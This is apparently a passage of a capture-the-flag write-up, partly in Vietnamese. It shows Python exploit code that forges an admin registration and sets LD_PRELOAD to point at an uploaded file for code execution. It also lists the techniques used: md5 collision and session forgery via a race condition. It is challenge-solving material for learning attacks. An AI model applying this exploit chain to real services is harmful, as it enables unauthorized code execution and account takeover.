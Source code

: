```py
    bot (s)
    exit(0)

## Now we have the display name ##
## TIME TO EXPLOIT ## 

register("SOaaa","SOaaa")
s = login("SOaaa","SOaaa")


FLAG_SO = getProfile(s)
print(f"FLAG_SO_ID: {FLAG_SO['user_id']}")
props =  {
            "description" : "FUCk" ,
            "LD_PRELOAD" :  f"/app/userdata/{FLAG_SO['user_id']}/flag.txt",
    }
FLAG_SO["logged_in"] = True
FLAG_SO['properties'] = props
register (admin_username,"?",admin_displayName,FLAG_SO) 
```

## New knowledge 
- Rce gadget through ENV $LD_PRELOAD (mình khong biết điều này nên đã khá vướng bận khi tìm gadget rce)
- md5 collision
- Forgery session with race condition ( đôi khi không cần leak jwt key để có một signed session)

## Rút kinh nghiệm :  
1. Đọc kĩ hơn :) 
2. Test mọi case đề chặn 
3. Trình